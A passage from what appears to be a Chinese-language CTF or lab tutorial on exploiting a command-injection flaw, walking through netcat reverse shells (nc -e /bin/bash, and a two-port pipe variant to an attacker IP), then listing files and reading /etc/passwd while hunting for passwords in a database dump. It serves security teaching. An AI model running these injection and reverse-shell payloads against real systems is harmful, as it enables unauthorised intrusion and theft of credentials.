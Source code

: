 可以看到,命令成功执行了.

在刚才的界面,我们看到有python文件,我们可以像第一周那样用python反弹shell.但是,我们不妨试试其他的情况

nc是一款十分强大的网络工具,许多linux发行版中都有nc的身影不幸的是,nc可以用来反弹shell,

我们首先定位一下nc,看看这台靶机中是否有nc工具

`hello | which nc`

which的意思是在当前用户的PATH路径中查找指定的文件,也就是所谓的可执行的指令

可以的!

那么接下来,我们就尝试使用nc反弹shell吧~

#### 串联nc

首先我们来尝试最基础的姿势,

payload: `hello | nc 10.0.0.12 4444 -e /bin/bash `

这条命令中,我们使用了nc的-e参数,它的意思就是当连接成功以后,攻击端可以输入的内容会被送到`/bin/bash`并经过执行后发送给攻击者

但是!意外发生了!

我们在本地监听的nc并没有收到反弹的shell,这是为什么?

nc在历史上有很多个版本,不同的linux发行版中的nc也千差万别

有的时候,nc是支持-e参数的,但是有的时候却不支持-e参数

这可怎么办呢??!别怕,我们来学个新姿势.

-e参数的实质就是把另一段发送的内容送到指定的程序,然后再把程序的结果返还给另一段

那么这里我们就可以用上面所说的`|`管道符号

使用`hello | nc 10.0.0.12 4444 | /bin/bash 2>&1 | nc 10.0.0.12 5555`

以上命令是什么意思呢?

首先我们让靶机连接我们的4444端口,在这个时候,我们在另一段的输入就会被它接收了.

它一旦接受了我们的指令,就会把指令通过管道符送到/bin/bash进行执行,执行后的结果又会向后流动,到达5555端口

此处加上了`2>&1`的意思是报错的内容会被输出到`基本输出`,这样我们在使用nc反弹的shell的时候就可以回显报错了

所以,4444端口是我们下达指令的地方,5555端口是我们接收结果的地方

![截屏2021-08-12 下午6.24.26](https://tva1.sinaimg.cn/large/008i3skNly1gte6hg665dj613e08e3yu02.jpg)

如图,左边是4444端口,右边是5555端口

我们使用ls与pwd查看了当前的信息,目录下又四个文件,最引我们注意的就是`database.sql`文件

我猜想,里面可能会有密码等机密文件!

我们再尝试查看/etc/passwd文件,看看有哪几个用户.

`cat /etc/passwd | grep /bin/bash`

这里使用grep过滤后,留下的就是能够登陆并使用bash的用户了
